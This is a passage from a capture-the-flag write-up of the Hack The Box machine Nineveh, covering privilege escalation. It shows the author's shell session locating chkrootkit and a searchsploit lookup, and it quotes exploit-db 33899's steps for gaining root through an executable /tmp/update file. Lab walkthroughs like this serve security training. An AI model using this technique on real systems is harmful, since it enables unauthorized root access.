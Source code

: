 ## Privilege Escalation

This looks to be what we have running on the box, see if we can find it:

```text
www-data@nineveh:/var/www/html/department$ locate chkrootkit
/usr/bin/chkrootkit

www-data@nineveh:/var/www/html/department$ ls -l /usr/bin/chkrootkit
-rwx--x--x 1 root root 76181 Jul  2  2017 /usr/bin/chkrootkit

www-data@nineveh:/var/www/html/department$ chkrootkit
/bin/sh: 0: Can't open /usr/bin/chkrootkit
```

Can't execute as www-data user, search for any exploits:

```text
root@kali:~/htb/nineveh# searchsploit chkrootkit
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                           |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Chkrootkit - Local Privilege Escalation (Metasploit)                                                                                                                                                     | linux/local/38775.rb
Chkrootkit 0.49 - Local Privilege Escalation                                                                                                                                                             | linux/local/33899.txt
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

Looks interesting, have a look:

```text
root@kali:~/htb/nineveh# searchsploit -x linux/local/33899.txt
  Exploit: Chkrootkit 0.49 - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/33899
     Path: /usr/share/exploitdb/exploits/linux/local/33899.txt
File Type: ASCII text, with CRLF line terminators
```

In there we find:

```text
Steps to reproduce:
- Put an executable file named 'update' with non-root owner in /tmp (not
mounted noexec, obviously)
- Run chkrootkit (as uid 0)
Result: The file /tmp/update will be executed as root, thus effectively
rooting your box, if malicious content is placed inside the file.
```
